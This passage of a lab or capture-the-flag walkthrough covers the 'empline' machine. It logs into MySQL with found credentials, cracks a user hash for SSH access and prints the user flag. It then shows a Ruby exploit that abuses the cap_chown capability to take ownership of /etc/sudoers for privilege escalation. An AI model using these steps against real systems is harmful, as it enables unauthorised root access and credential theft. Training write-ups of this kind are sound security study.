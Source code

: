 We got credentials for the mysql port:

```
mysql -h 10.10.246.235 -u james -p --skip_ssl
```

```
ng6pUFvsGNtw
```

At the `user` table on the `opencats` database, we can see this:

![](images/Pasted%20image%2020250430164346.png)

We got a hash for the George user, this user was found when we read the `/etc/passwd` file, since it got a console, we can decode the hash and get a session on ssh:

![](images/Pasted%20image%2020250430164451.png)

```
george:pretonnevippasempre
```


![](images/Pasted%20image%2020250430164529.png)


There we go, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


```
george@empline:~$ cat user.txt
91cb89c70aa2e5ce0e0116dab099078e
```


Let's use linpeas to check any PE vector:

![](images/Pasted%20image%2020250430164919.png)

`Ruby` has the `cap_chown` capability set, we can do the following:

1. Create a Ruby Script to Change Ownership of `/etc/sudoers`

Create a file named `exploit.rb` with the following content:

```rb
File.chown(Process.uid, Process.gid, "/etc/sudoers")
```

2. Run the Script with the Vulnerable Ruby Binary:

```bash
/usr/local/bin/ruby exploit.rb
```
